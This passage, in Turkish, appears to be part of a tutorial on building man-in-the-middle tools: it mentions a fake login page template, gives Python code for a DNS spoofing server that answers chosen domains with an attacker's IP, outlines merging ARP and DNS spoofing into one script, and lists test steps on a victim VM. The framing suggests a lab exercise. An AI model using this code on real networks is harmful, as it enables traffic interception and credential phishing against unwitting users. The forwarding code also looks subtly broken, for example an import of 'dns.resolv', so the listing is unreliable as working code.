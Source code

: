 - `templates/fake_login.html` dosyasını oluşturun (örneğin, bir giriş sayfası taklidi).

---

## Gelişmiş Geliştirmeler

---

### Seçmeli DNS Spoofing için DNS Proxy

DNSChef gibi belirli alan adlarını spoof eden bir DNS sunucusu oluşturun.

- dnslib’i kurun: `pip install dnslib`

```python
from dnslib import *
from dnslib.server import DNSServer, BaseResolver
import dns.resolv

class SpoofResolver(BaseResolver):
    def resolve(self, request, handler):
        reply = request.reply()
        qname = str(request.q.qname)
        if qname in ['example.com.']:
            reply.add_answer(RR(qname, QTYPE.A, rdata=A('192.168.1.100'), ttl=60))
        else:
            # Gerçek DNS’e yönlendirme
            reply = DNSRecord.parse(dns.resolv.Resolver().query(request.q.qname, request.q.qtype).send())
        return reply

resolver = SpoofResolver()
server = DNSServer(resolver, port=53, address='0.0.0.0')
server.start_thread()
```

---

### Entegre MITM Betiği

Bettercap benzeri bir betikle ARP ve DNS spoofing’i birleştirin.

- Yukarıdaki ARP ve DNS spoofing kodlarını birleştirin  
- Yapılandırma dosyası veya komut satırı argümanlarıyla özelleştirin

---

## Geliştirmelerin Test Edilmesi

- **ARP Spoofing:**
  - Betiği çalıştırın.
  - Kurban VM’de ARP tablosunu kontrol edin (`arp -a`)
  - Ağ geçidinin MAC adresi saldırganınkiyle değişmiş olmalı
